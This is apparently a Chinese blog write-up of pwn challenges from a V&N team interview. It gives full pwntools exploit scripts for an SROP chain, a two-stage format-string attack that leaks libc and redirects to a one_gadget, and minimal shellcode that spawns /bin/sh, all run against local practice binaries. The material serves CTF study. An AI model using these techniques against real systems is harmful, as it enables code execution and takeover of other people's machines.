







# V&N面试

vn的面试我觉得算是比较有压迫感的吧	~~毕竟那么多人面你一个~~，但是题目的难度不算很大

就是一个主面试官，他会先把题目丢给你，然后让你去说思路，一般四道题就差不多结束了，覆盖其实就是栈的知识，然后堆的，面试直接回答一些问题；~~至少对我是这样的~~，但是他非常喜欢考极限情况下的栈，比如，非常短的shellcode，非常少的溢出，并且不给gadget啥的，那么下面是对这些题复现：

# 1

这是一道栈题
这题我还没有复现完，我不会，出题人也忘记思路了

# 2

这是一道SROP的题：



很明显，一个read一个write，并且空间非常大；需要打SROP，那么应该怎么打呢？这里没有能够触发SROP的gadget，那么只能使用函数的返回值来触发SROP了，那么现在的问题就有了，如果我们使用read来触发，那么我们触发之后想执行的sigreturn的链就无法写入，所以不能使用read触发sigreturn，那么还有一个，使用write，但是write的输出是read的输出的长度，所以，我们需要二次输入，使得sigreturn触发；

这里的EXP的编写有一点点的小细节，首先我们需要使用8个b去盖write的rbp,这样ret就会到syscall了，

因此exp:

```python
#!/usr/bin/env python3
from pwn import *
from LibcSearcher import *

# 配置
context(os='linux', arch='amd64', log_level='debug')
binary = "./pwn"

# 远程/本地切换
if args.get("REMOTE"):
    io = remote("127.0.0.1", 8080)
else:
    io = process(binary)

# ELF加载
elf = ELF(binary)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

# ========== 常用函数定义 ==========
s       = lambda data               : io.send(data)
sa      = lambda delim, data        : io.sendafter(str(delim), data)
sl      = lambda data               : io.sendline(data)
sla     = lambda delim, data        : io.sendlineafter(str(delim), data)
r       = lambda num=4096           : io.recv(num)
rl      = lambda                    : io.recvline()
ru      = lambda delims, drop=False : io.recvuntil(delims, drop)
itr     = lambda                    : io.interactive()
uu32    = lambda data               : u32(data.ljust(4, b'\x00'))
uu64    = lambda data               : u64(data.ljust(8, b'\x00'))
leak    = lambda name, addr         : log.success('{} ======== > {:#x}'.format(name, addr))
p       = lambda name,data          : print("{} ======== > {}".format(name,data))

# ========== 常用泄露函数 ==========
l64     = lambda                    : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
l32     = lambda                    : u32(io.recvuntil(b"\xf7")[-4:].ljust(4, b"\x00"))
l64_no  = lambda                    : u64(io.recv(6).ljust(8, b'\x00'))
def bug():
  gdb.attach(io)
  pause()
# ========== Exploit 开始 ==========
def exp():
    #shellcode = asm(shellcraft.mmap())
    syscall = 0x00000000040104C
    #syscall_ret = 0x00000000401031
    binsh = 0x000000000401035
    sig=SigreturnFrame()
    sig.rax=59
    sig.rdi=binsh
    sig.rsi=0
    sig.rdx=0
    sig.rip=syscall

    pay = b'a'*(0x188)+p64(0x00000000401001)+b'b'*8+p64(syscall)+bytes(sig)
    print(pay.ljust(0x300,b'\x00'))
    gdb.attach(io)
    s(pay)
    sleep(2)
    s(b'a'*0xf)
    pause()

exp()
itr()
```

# 3

题目如下：





给了一次格式化字符串漏洞和一个栈上的地址

首先我们肯定是需要多次输入的，并且我们不能让printf执行完去执行magic=0这条代码，所以我们应该可以想到可以通过buf的地址去找到printf返回的位置，从而修改printf的返回地址，并且可以顺便把libc泄漏出来；紧接着第二次格式化字符串，修改main的返回地址为one_gadget

下面是整个流程





我们修改这个为main的地址或者其他地址，并且泄漏libc，让我们再来一次

```python
    pay = b'%4669c%11$hn'+b'%19$p'
    pay = pay.ljust(0x28,b'a')
    pay += p64(stack-8)

    sa("please tell me your name",pay)

    ru(b"0x")
    libc_base = int(r(12).strip(),16)-0x20830
    ogg = libc_base+0xf0897
    leak("libc_base",libc_base)
    leak("ogg",ogg)

```

这时：我们只需要再执行一次，修改libc_start_main+240为one_gadget就可以了，ogg和libc_start_main+240只差了3个字节，所以我们可以修改两次，(buf的长度足够)，一次改一个字节另一次改两个字节；这里有一个细节，其实我们可以先修改高的那个字节，然后再修改低的两个字节，这样我们就可以直接用低两个字节-高一个字节的长度来修改低两个字节，就不需要考虑大小了，至于更多的细节，可以去找找格式化字符漏洞的博客学习一下

```python
    pay = b'%'+str((ogg&0xffffff)>>16).encode()+b'c%10$hhn'
    pay += b'%'+str((ogg&0xffff)-((ogg&0xffffff)>>16)).encode()+b'c%11$hn'
    pay = pay.ljust(0x20,b'a')
    pay += p64(stack+0x68+0x2)
    pay += p64(stack+0x68)
```

完整EXP

```python
#!/usr/bin/env python3
from pwn import *
from LibcSearcher import *

# 配置
context(os='linux', arch='amd64', log_level='debug')
binary = "./pwn"

# 远程/本地切换
if args.get("REMOTE"):
    io = remote("127.0.0.1", 8080)
else:
    io = process(binary)

# ELF加载
elf = ELF(binary)
libc = ELF("/home/source/tools/glibc-all-in-one//libs/2.23-0ubuntu3_amd64/libc.so.6")

# ========== 常用函数定义 ==========
s       = lambda data               : io.send(data)
sa      = lambda delim, data        : io.sendafter(str(delim), data)
sl      = lambda data               : io.sendline(data)
sla     = lambda delim, data        : io.sendlineafter(str(delim), data)
r       = lambda num=4096           : io.recv(num)
rl      = lambda                    : io.recvline()
ru      = lambda delims, drop=False : io.recvuntil(delims, drop)
itr     = lambda                    : io.interactive()
uu32    = lambda data               : u32(data.ljust(4, b'\x00'))
uu64    = lambda data               : u64(data.ljust(8, b'\x00'))
leak    = lambda name, addr         : log.success('{} ======== > {:#x}'.format(name, addr))
p       = lambda name,data          : print("{} ======== > {}".format(name,data))

# ========== 常用泄露函数 ==========
l64     = lambda                    : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
l32     = lambda                    : u32(io.recvuntil(b"\xf7")[-4:].ljust(4, b"\x00"))
l64_no  = lambda                    : u64(io.recv(6).ljust(8, b'\x00'))
def bug():
  gdb.attach(io)
  pause()
# ========== Exploit 开始 ==========
def exp():
    ru("your gift ")
    stack = int(r(14),16)
    leak("stack",stack)

    offset = 6
    pay = b'%4669c%11$hn'+b'%19$p'
    pay = pay.ljust(0x28,b'a')
    pay += p64(stack-8)

    sa("please tell me your name",pay)

    ru(b"0x")
    libc_base = int(r(12).strip(),16)-0x20830
    ogg = libc_base+0xf0897
    leak("libc_base",libc_base)
    leak("ogg",ogg)

    pay = b'%'+str((ogg&0xffffff)>>16).encode()+b'c%10$hhn'
    pay += b'%'+str((ogg&0xffff)-((ogg&0xffffff)>>16)).encode()+b'c%11$hn'
    pay = pay.ljust(0x20,b'a')
    pay += p64(stack+0x68+0x2)
    pay += p64(stack+0x68)

    sleep(2)
    s(pay)
    bug()
exp()
itr()

"""
0x4525a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xef9f4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf0897 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
"""
```

# 4

这个shellcode其实解法很多，至少两种，预期解是不用二次read的，但是我是使用的double read的，

首先程序：



先mmap给0x400000申请一段可读可写可执行的内存，往这个地址里面输入一个shellcode,然后再输入一些东西，之后就可以执行shellcode，

shellcode最重要的是寄存器的值，所以我们先gdb先看看，



其实可以看到，如果想read，我们就得让rax=0;rdi=0;rsi=buf;rdx=很长的长度;所以，恰好发现，rsi和rdx的值正好换一下可以成立，所以，一样的思路，使用xchg换rax，rbx的值，xchg换rsi和rdx的值，再加上一个syscal就可以构造read，xchg这里3个字节，所以一共7个字节，所以可以double read，紧接着就来一次execve("/bin/sh",0,0)

完整EXP

```python
#!/usr/bin/env python3
from pwn import *
from LibcSearcher import *

# 配置
context(os='linux', arch='amd64', log_level='debug')
binary = "./shellcode"

# 远程/本地切换
if args.get("REMOTE"):
    io = remote("127.0.0.1", 8080)
else:
    io = process(binary)

# ELF加载
elf = ELF(binary)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

# ========== 常用函数定义 ==========
s       = lambda data               : io.send(data)
sa      = lambda delim, data        : io.sendafter(str(delim), data)
sl      = lambda data               : io.sendline(data)
sla     = lambda delim, data        : io.sendlineafter(str(delim), data)
r       = lambda num=4096           : io.recv(num)
rl      = lambda                    : io.recvline()
ru      = lambda delims, drop=False : io.recvuntil(delims, drop)
itr     = lambda                    : io.interactive()
uu32    = lambda data               : u32(data.ljust(4, b'\x00'))
uu64    = lambda data               : u64(data.ljust(8, b'\x00'))
leak    = lambda name, addr         : log.success('{} ======== > {:#x}'.format(name, addr))
p       = lambda name,data          : print("{} ======== > {}".format(name,data))

# ========== 常用泄露函数 ==========
l64     = lambda                    : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
l32     = lambda                    : u32(io.recvuntil(b"\xf7")[-4:].ljust(4, b"\x00"))
l64_no  = lambda                    : u64(io.recv(6).ljust(8, b'\x00'))
def bug():
  gdb.attach(io)
  pause()
# ========== Exploit 开始 ==========
def exp():
    shellcode = asm("xchg rsi,rdx;xchg rbx,rax;syscall;")
    p("shellcode_len",hex(len(shellcode)))
    sla("First, please input your shellcode:",shellcode)
    sla("Second, give me your name,and I will run your shellcode:",b'Source')
    shellcode1 = b'\x90'*0x10+asm(shellcraft.sh())+asm("mov rsp,0x400000;jmp rsp")
    p("shellcode1_len",hex(len(shellcode1)))
    sleep(5)
    #gdb.attach(io)
    sl(shellcode1)
    #pause()
exp()
itr()

```

注意，两次read之间需要sleep来保证完全读入；要不然可能会失败

那么现在还有第二种解法，直接getshell

这里需要介绍一条汇编---- > cdq,作用是把rax的31bit全部填充到rdx上，所以可以这样把rdx清零，并且开销非常小，只有1个字节，所以我们只需要控制后面的rdi和rsi就可以了，由于rdi需要/bin/sh的地址，而rsi在执行shellcode之前会有一次read，这个时候是读入的地址在rsi上，所以，我们可以第二次读入的时候读/bin/sh,再把rsi的值给rdi，

这里需要注意一下长度：cdq+syscall==3字节，那么还有6个字节，需要完成rax和rdi,rsi的控制，所以可以使用

```asm
mov al,59;2字节
push rsi;
pop rdi;
pop rsi; 3字节
cdq ;1 字节
syscall;2字节
```

所以EXP如下：

```python
def exp1():
    shellcode = asm(
       '''
        mov al,59;
        push rsi;
        pop rdi;
        pop rsi;
        cdq;
        syscall;
        '''
    )
    p("shellcode_len",hex(len(shellcode)))
    sa("First, please input your shellcode:",shellcode)
    sla("Second, give me your name,and I will run your shellcode:",b'/bin/sh\x00')

exp1()
itr()
```

